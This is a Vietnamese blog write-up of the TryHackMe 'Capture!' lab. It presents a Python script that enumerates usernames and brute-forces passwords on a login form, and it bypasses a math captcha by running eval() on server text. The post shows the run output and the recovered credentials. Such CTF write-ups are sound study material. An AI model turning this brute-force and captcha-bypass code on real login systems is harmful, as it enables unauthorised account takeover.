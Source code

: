 ```yaml
---
layout: post
author: "Neo"
title: "Tryhackme - Capture!"
date: "2023-06-21"
tags: [
    "tryhackme",
    "web",
    "brute-force",
    "captcha",
    "python"
]
categories: ctf
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}

[TryHackMe - Capture!](https://tryhackme.com/room/capture)
## Reconnaissance and Scanning

Ngay ở Task 1 tôi đã được cung cấp 1 thư mục chứa 2 file là danh sách usernames và passwords, có thể nghĩ ngay đến việc sử dụng 2 list này để brute-force.

Bài này cũng không cần thiết phải scan port vì ở phần mô tả đã cho tôi sẵn phải truy cập vào http://MACHINE-IP, nghĩa là chỉ có port 80 đang mở.

Sau khi chạy máy và truy cập vào web tôi được 1 site login. 

![login](/assets/img/2023-07-21-THM-Capture!/1.png)

Sau khi thử login vài lần thì tôi bị dính captcha. Vậy là web có cơ chế rate limit để tránh brute-force. Tuy nhiên, captcha này chỉ là các phép tính cộng trừ nhân chia các số tự nhiên, vậy nên tôi có thể nghĩ đến việc viết python script để bypass captcha này trong mỗi phiên brute-force.

## Python script

Với sự giúp đã của ChatGPT, tôi có thể viết lại script như sau.

Import requests để lấy Session, sử dụng để brute force, import thêm *re* để sử dụng các biểu thức chính quy.

Đầu tiên tôi cần phải lấy từng dòng trong 2 file usernames.txt và passwords.txt ra để làm username và password, loại bỏ dấu xuống dòng, chỉ lấy đúng phần text trong từng dòng. 

Thêm url để thực hiện POST request.

```python
#! /usr/bin/python

from requests import Session
import re 

url = "http://10.10.140.153/login"

usernames = open('usernames.txt','r').read().splitlines()
passwords = open('passwords.txt','r').read().splitlines()
```

Khi đăng nhập sai, trang web hiện ***Error: The user does not exist***. 

![error](/assets/img/2023-07-21-THM-Capture!/3.png)

Vậy thì tôi sẽ brute force username trước bằng cách kiểm tra xem khi nào dữ liệu trả về không chứa đoạn ký tự ***does not exist***, đó là username hợp lệ cần tìm.

```python
for user in usernames:

 response = session.post(url,data=data)
 data['username'] = user
 
 if 'does not exist' not in response.text:
  print(f'Found username: {user}')
  print(f'Attempting to brute forcing passowrd for user: {user}')
```

Tiếp theo, cần có thêm 1 hàm để giải captcha sau mỗi phiên đăng nhập sai. Sử dụng biểu thức chính quy để định dạng phép tính của captcha.

```python
(\s\s\d+\s[+*-/]\s\d+)\s\=\s\?
```

Sử dụng hàm *complie()* để đọc biểu thức chính quy trên. Sử dụng hàm *findall()* trả về tất cả kết quả khớp với mẫu trong chuỗi. Sử dụng hàm *eval()* để trả về kết quả mà biểu thức phía trên thực hiện.

```python
def solve_captcha(response):
 
  captcha_syntax = re.compile(r'(\s\s\d+\s[+*-/]\s\d+)\s\=\s\?')
  captcha = captcha_syntax.findall(response)
  return eval(' '.join(captcha))
```

Cuối cùng, tôi sẽ ghép các phần lại với nhau. Đầu tiên, tạo post session chứa data là username và password. 

- Nếu trong response trả về không có chứa đoạn ký tự ***does not exist***, đó là username hợp lệ cần tìm
- Nếu trong response trả về có chứa đoạn ký tự ***Captcha enabled*** thì gọi hàm **solve_captcha** để xử lý.
- Nếu trong response trả về không có chứa đoạn ký tự ***Error***, đó là password hợp lệ cần tìm

Script cuối cùng của tôi sẽ trông như thế này

```python
#! /usr/bin/python

from requests import Session
import re 

url = "http://10.10.140.153/login"

# Removing the line feed (\n) from the usernames and passwords read from the respective files
usernames = open('username.txt','r').read().splitlines()
passwords = open('password.txt', 'r').read().splitlines()


def solve_captcha(response):
 
  captcha_syntax = re.compile(r'(\s\s\d+\s[+*-/]\s\d+)\s\=\s\?')
  captcha = captcha_syntax.findall(response)
  return eval(' '.join(captcha))

#initializing a session
session = Session() 
data = {'username': 'username','password':'password'}
# create a post request to the url with the payload/data using the session opened
response = session.post(url,data=data) 

for user in usernames:

 response = session.post(url,data=data)
 data['username'] = user

 if 'Captcha enabled' in response.text:

  captcha_result = solve_captcha(response.text)

  data['captcha'] = captcha_result

 response = session.post(url,data =data)

 if 'does not exist' not in response.text:
  
  print(f'Found username: {user}')
  print(f"Trying brute force passowrd for user: {user}")

  for password in passwords:

   captcha_result = solve_captcha(response.text)
   data['password'] = password
   data['captcha'] = captcha_result

   response = session.post(url,data=data)

   if 'Error' not in response.text:

    print(f'----> Found Username: {user} Password: {password} ')
    exit()
   
   else:
    print(f'[*]Trying password: {password} for user ')
 
 else:
  print(f'[*] Trying brute force password for user: {user}')
```

Kết quả 

```python 
[*]Trying password: 147258369 for user 
[*]Trying password: fernandez for user 
[*]Trying password: sakura for user 
[*]Trying password: robbie for user 
[*]Trying password: qwert for user 
[*]Trying password: shaggy for user 
[*]Trying password: 123654789 for user 
[*]Trying password: popcorn for user 
[*]Trying password: martha for user 
[*]Trying password: dance for user 
[*]Trying password: brooke for user 
[*]Trying password: 147852369 for user 
----> Found Username: natalie Password: sk8board                                                           
┌──(root㉿kali)-[/home/kali]
└─# 
```

Login site

![flag](/assets/img/2023-07-21-THM-Capture!/2.png)

